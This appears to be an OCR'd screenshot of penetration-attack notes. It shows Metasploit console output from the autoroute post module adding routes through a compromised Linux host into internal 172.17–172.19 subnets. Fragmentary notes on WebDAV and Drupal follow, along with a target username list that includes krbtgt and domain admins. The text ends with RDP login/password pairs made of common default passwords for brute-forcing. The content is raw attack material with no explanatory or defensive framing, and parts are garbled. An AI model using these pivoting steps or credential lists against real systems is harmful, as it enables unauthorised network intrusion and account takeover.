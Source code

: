 
sf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against ip-192-168-100-52.me-south-1.compute.internal
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.19.0.0/255.255.0.0 from host's routing table.






webdav no found
drupal 
usernames :
admin
root 


root
admin
administrator
guest
krbtgt
domain 
admins
bin
none

RDP
login: root   password: 123456
login: root   password: 12345
login: root   password: admin
login: root   password: 123456789
login: admin   password: admin
login: admin   password: 123456
login: admin   password: 123456789
login: admin   password: 12345
login: administrator   password: admin
login: administrator   password: 123456
login: administrator   password: 12345
login: administrator   password: 123456789
login: admins   password: admin
login: admins   password: 12345
login: admins   password: 123456
login: admins   password: 123456789
